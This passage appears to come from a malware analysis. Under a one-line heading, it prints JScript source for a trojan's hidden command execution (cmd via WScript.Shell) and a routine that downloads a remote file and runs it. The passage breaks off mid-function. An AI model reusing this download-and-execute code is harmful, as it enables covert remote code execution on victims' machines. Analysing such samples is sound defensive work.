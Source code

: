 <h6>The next function shows the details of the download and execution methods (by cmd or run call).</h6>

```js
 function Execute(command)
 {
  try
  {
   shellObj.run("%comspec% /c "+ command,0,true);
   return 'True';
  }
  catch(err){return 'False'}
 }
 function GetFilenameFromURL(url)
 {
  var filename=url.split('/')[url.split('/').length- 1];
  if(!AddToAutorun){return}
  else {return filename}
 }

 function DownloadAndExecute(url)
 {
  var filename=GetFilenameFromURL(url);
  var saveTo=defaultPath+ '\\'+ filename;
  var WinHttpObj=WScript.CreateObject("WinHttp.WinHttpRequest.5.1");
  if(ExecuteAndOutput== 1){SendClientInfo()};
  try
  {
   WinHttpObj.open("GET",url,false);
   if(!AddToAutorun){SendTaskResult()};
   WinHttpObj.setRequestHeader("cache-control","max-age=0");
   WinHttpObj.send();
   var fsObj=WScript.CreateObject("Scripting.FileSystemObject");
   if(fsObj.fileExists(saveTo)){fsObj.deleteFile(saveTo)};
   if(WinHttpObj.status== 200)
   {
    var streamObj=WScript.CreateObject("ADODB.Stream");
    streamObj.Type= 1;
    if(!SendClientInfo){return};
    streamObj.Open();
    streamObj.Write(WinHttpObj.responseBody);
    streamObj.SaveToFile(saveTo);
    streamObj.close();
    if(!SendClientInfo){return};
    streamObj= null
   };
   if(fsObj.fileExists(saveTo)){shellObj.run(fsObj.getFile(saveTo).shortPath); return 'True'}
  }
  catch(err){return 'False'};
  return 'False';
 }

 function ExecuteAndOutput(command)
 {
  var fso= new ActiveXObject("Scripting.FileSystemObject");
  var wshShell= new ActiveXObject("WScript.Shell");
  do{var tempName=fso.BuildPath(fso.GetSpecialFolder(2),fso.GetTempName())}
  while(fso.FileExists(tempName));;
  var cmdLine=fso.BuildPath(fso.GetSpecialFolder(1),"cmd.exe")+ ' /C '+ command+ ' > \"'+ tempName+ '\"';
  wshShell.Run(cmdLine,0,true);
  var result="";
  try
  {
```